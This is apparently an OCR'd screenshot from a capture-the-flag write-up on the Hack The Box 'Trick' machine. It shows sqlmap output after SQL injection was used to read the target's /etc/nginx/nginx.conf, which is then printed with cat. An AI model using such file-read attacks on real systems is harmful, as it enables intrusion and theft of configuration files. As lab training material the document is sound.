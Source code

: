 ```bash
[00:17:53] [INFO] the local file '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf' and the remote file '/etc/nginx/nginx.conf' have the same size (1482 B)
files saved to [1]:
[*] /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf (same file)

[00:17:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/preprod-payroll.trick.htb'

[*] ending @ *************
[*] ending @ *************

root@loe# cat /root/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_nginx.conf
user www-data;
worker_processes auto;
pid /run/nginx.pid;
include /etc/nginx/modules-enabled/*.conf;

events {
worker_connections 768;
# multi_accept on;
http {

## Basic Settings

sendfile on;
tcp_nopush on;
tcp_nodelay on;
keepalive_timeout 65;
types_hash_max_size 2048;
# server_tokens off;
# server_names_hash_bucket_size 64;
# server_name_in_redirect off;

include /etc/nginx/mime.types;
default_type application/octet-stream;
# SSL Settings
ssl_protocols TLSv1 TLSv1.1 TLSv1.2; # Dropping SSLv3, ref: POODLE
ssl_prefer_server_ciphers on;
# Logging Settings
access_log /var/log/nginx/access.log;
error_log /var/log/nginx/error.log;
# Gzip Settings
gzip on;
# gzip_vary on;
# gzip_proxied any;
# gzip_comp_level 6;
# gzip_buffers 16 8k;
# gzip_http_version 1.1;
# gzip_types text/plain text/css application/json application/javascript text/xml application/xml application/xml+rss text/javascript;
# Virtual Host Configs
include /etc/nginx/conf.d/*.conf;
include /etc/nginx/sites-enabled/*;
#mail {
#	# See sample authentication script at:
#	# http://wiki.nginx.org/ImapAuthenticateWithApachePhpScript
#
#	# auth_http localhost/auth.php;
#	# pop3_capabilities "TOP" "USER";
#	# imap_capabilities "IMAP4rev1" "UIDPLUS";
#
```